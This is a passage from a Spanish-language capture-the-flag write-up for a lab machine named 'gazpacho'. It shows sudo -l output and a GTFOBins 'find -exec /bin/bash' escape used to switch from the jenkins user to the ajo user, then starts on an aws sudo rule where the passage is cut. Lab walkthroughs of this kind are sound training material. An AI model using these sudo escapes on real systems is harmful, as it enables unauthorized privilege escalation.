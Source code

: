 <br>

<h2 id="find">Abusando de Privilegios Sobre Binario find para Escalar Privilegios y Convertirnos en el Usuario ajo</h2>

Revisando los privilegios del **usuario jenkins**, podemos usar el comando **find** como el **usuario ajo**:
```bash
jenkins@gazpacho:~$ sudo -l
Matching Defaults entries for jenkins on gazpacho:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jenkins may run the following commands on gazpacho:
    (ajo) NOPASSWD: /usr/bin/find
```

Podemos buscar una forma de escalar privilegios con el **binario find**, para convertirnos en el **usuario ajo** con la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/find/" target="_blank">GTFOBins: find</a>

Ocuparemos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura10.png">
</p>

Probémoslo:
```bash
jenkins@gazpacho:~$ sudo -u ajo find . -exec /bin/bash \; -quit
ajo@gazpacho:/var/lib/jenkins$ whoami
ajo
ajo@gazpacho:/var/lib/jenkins$ cd /home/ajo
ajo@gazpacho:~$
```
Ahora somos el **usuario ajo**.

<br>

<h2 id="aws">Abusando de Privilegios Sobre Binario aws para Escalar Privilegios (Shell Escape) y Convertirnos en el Usuario cebolla</h2>

Este usuario no cuenta con algún archivo o pista dentro de su directorio.

Entonces, revisemos sus privilegios:
```bash
ajo@gazpacho:~$ sudo -l
Matching Defaults entries for ajo on gazpacho:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ajo may run the following commands on gazpacho:
    (cebolla) NOPASSWD: /usr/bin/aws
```

